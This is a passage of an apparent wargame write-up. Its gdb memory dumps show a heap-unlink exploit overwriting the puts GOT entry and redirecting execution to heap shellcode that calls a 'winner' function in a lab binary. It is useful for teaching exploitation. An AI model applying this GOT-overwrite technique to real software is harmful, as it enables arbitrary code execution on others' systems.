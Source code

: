 **After the first `free(b)` call:**
```bash
0x804c000:	0x00000000	0x00000029	0x90909090	0x90909090
0x804c010:	0x0804b11c	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0xfffffff4	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0xfffffff5	0x0804b194	0x0804b194
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000fb1	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```
And after that we successfully overwrite the `puts` GOT:
```bash
(gdb) disas 0x8048790
Dump of assembler code for function puts@plt:
0x08048790 <puts@plt+0>:	jmp    DWORD PTR ds:0x804b128
0x08048796 <puts@plt+6>:	push   0x68
0x0804879b <puts@plt+11>:	jmp    0x80486b0
End of assembler dump.
(gdb) x/1wx 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x0804c008
```

**After the first `free(a)` call:**
```bash
0x804c000:	0x00000000	0x00000029	0x00000000	0x90909090
0x804c010:	0x0804b11c	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0xfffffff4	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0xfffffff5	0x0804b194	0x0804b194
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000fb1	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```

When landing on `puts` call, we can just `step into` to see whether we land on the heap we were pointing or not:
```bash
Breakpoint 4, 0x08048790 in puts@plt ()
(gdb) si
0x804c000:	0x00000000	0x00000029	0x00000000	0x90909090
0x804c010:	0x0804b11c	0x64689090	0xc3080488	0x41414141
0x804c008:	add    BYTE PTR [eax],al
0x804c00a:	add    BYTE PTR [eax],al
0x0804c008 in ?? ()
```
Well we did land on `0x0804c008` which we defined earlier on second heap chunk `bk`'s pointer.

We are ready to call `winner`:
```bash
(gdb) 
0x804c016:	push   0x8048864
0x804c01b:	ret    
0x0804c016 in ?? ()
(gdb) c
Continuing.
that wasn't too bad now, was it? @ 1725911604

Program exited with code 056.
0x804c000:	Error while running hook_stop:
Cannot access memory at address 0x804c000
```
